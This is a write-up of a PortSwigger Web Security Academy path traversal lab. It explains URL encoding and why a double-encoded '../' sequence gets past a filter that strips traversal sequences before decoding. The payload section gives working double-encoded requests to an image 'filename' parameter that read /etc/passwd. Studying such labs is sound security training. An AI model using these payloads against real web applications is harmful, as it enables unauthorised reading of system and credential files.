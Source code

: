 # File path traversal, traversal sequences stripped with superfluous URL-decode

**Lab Url**: [https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

![Lab Description](img/lab-description.png)

## Goal

This lab demonstrates a path traversal vulnerability. The application blocks input containing path traversal sequences but performs URL decoding on the input before using it. The goal is to retrieve the contents of `/etc/passwd`.

## Information

**URL encoding** is a method to encode data in a Uniform Resource Identifier (URI) using US-ASCII characters. It ensures that special characters, reserved symbols, and non-ASCII characters in a URL are correctly interpreted by web browsers and servers. URL encoding replaces unsafe characters with a "%" followed by their hexadecimal ASCII value, preventing parsing conflicts and ensuring data integrity. This is essential for handling spaces (`%20`), query parameters (`&` and `=`), and characters with special meanings in URLs.

You can find more information [here](https://en.wikipedia.org/wiki/Percent-encoding).

## Conclusion

Solutions from previous labs won't work here because, as stated in the lab description, the application first strips path traversal sequences and then decodes the input. Simply URL encoding the payload is also ineffective, as one level of URL decoding is usually done by the server upon receiving the request. Therefore, encoding `../` as `%2e%2e%2f` is insufficient. The server decodes the URL and passes `../` to the application, which filters it out.

To bypass this, we can URL-encode the encoded string again.

`../ --> ..%2F --> ..%252F`

OR

`../../../ --> %2e%2e%2f%2e%2e%2f%2e%2e%2f -> %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66`

## Payload

```bash
/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
```

```bash
/image?filename=..%252f..%252f..%252fetc/passwd
```

![Retrived Content](img/retrived-content.png)

![Lab Solved](img/lab-solved.png)
